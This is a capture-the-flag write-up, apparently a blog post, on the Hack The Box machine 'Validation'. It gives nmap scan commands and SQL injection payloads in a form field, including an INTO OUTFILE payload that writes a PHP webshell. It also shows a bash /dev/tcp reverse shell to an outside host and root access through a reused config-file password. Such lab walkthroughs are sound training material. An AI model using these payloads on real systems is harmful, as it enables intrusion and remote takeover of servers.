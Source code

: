 ```yaml
---
title: Validation
published: true
layout: post
---
```


<br />

---------------
Validation is an easy difficulty Linux machine that involves exploiting an SQL Injection vulnerability present in a website. By leveraging this vulnerability, we can upload a webshell and gain access as www-data. To escalate privileges to root, we discover credentials within a config file, allowing us to log in as root.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/frx7Ls9-j6U?si=1TkjVuEKPEZvmf2X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.116 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Validation/1.png)
<br />
<br />
<br />

There are **4 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **4566/tcp**
+ **8080/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.116 -p 22,80,4566,8080 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Validation/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp Apache httpd 2.4.52**
+ **4566/tcp nginx**
+ **8080/tcp nginx**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.116 -p 22,80,4566,8080 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

![](/assets/Validation/3.png)
<br />
<br />
<br />

The scan reports nothing interesting.

<br />

------

<br />
### Foothold

The foothold in this machine """easy""", the quotes are there because **SQLi** is very difficult for me.

<br />

We are facing a website that allows us to register for what seems to be a competition:
![](/assets/Validation/4.png)
<br />
<br />
<br />

We can capture the request and see it in **BurpSuite**:
![](/assets/Validation/5.png)
<br />
<br />
<br />

As the country field is "protected" in the website, because it is a **list and not a text field**, we can attempt **SQLi** on it:

```HTTP
username=Tanades&country=Brazil'
```

![](/assets/Validation/6.png)
<br />
<br />
<br />

We get an **SQL error**, so we can start our SQLi enumeration, beginning by discovering how many fields are being selected using an ***ORDER BY*** clause:

```HTTP
username=Tanades&country=Brazil'+ORDER+BY+1+--+//
```

![](/assets/Validation/7.png)
<br />
<br />
<br />

We can now try to exfiltrate information using an ***UNION SELECT*** clause:
```HTTP
username=Tanades&country=Brazil'+UNION+SELECT+database()+--+//
```

![](/assets/Validation/8.png)
<br />
<br />
<br />

Even though this seems like the way to enumerate credentials and escalate privileges, this is not the case, we have to create a **webshell** using an ***INTO OUTFILE*** clause
```HTTP
username=Tanades&country=Brazil'+UNION+SELECT+"<%3fphp+system($_GET['cmd'])%3b%3f>"+INTO+OUTFILE+"/var/www/html/webshell.php"+--+//
```

![](/assets/Validation/9.png)
<br />
<br />
<br />

Let's see if the command has been successful:
![](/assets/Validation/10.png)
<br />
<br />
<br />

Great let's now send us a **reverse shell**:
```
bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.10/4444+0>%261"
```

![](/assets/Validation/11.png)
<br />
<br />
<br />

We received the reverse shell, let's **print the flag** for the user htb:

![](/assets/Validation/12.png)
<br />
<br />
<br />


------

<br />
### Privilege Escalation

The privilege escalation for this machine is one of the easiest, we just have to take our time to **read configuration files**.

<br />

In the */var/www/html* directory, we can see a **config.php** file that we couldn't read before as it was being interpreted:

![](/assets/Validation/13.png)
<br />
<br />
<br />

As we can see, this file contains **credentials for the database** for an user called uhc, however this **password also works for the root user**:

```bash
su
script /dev/null -c bash
```

![](/assets/Validation/14.png)
<br />
<br />
<br />
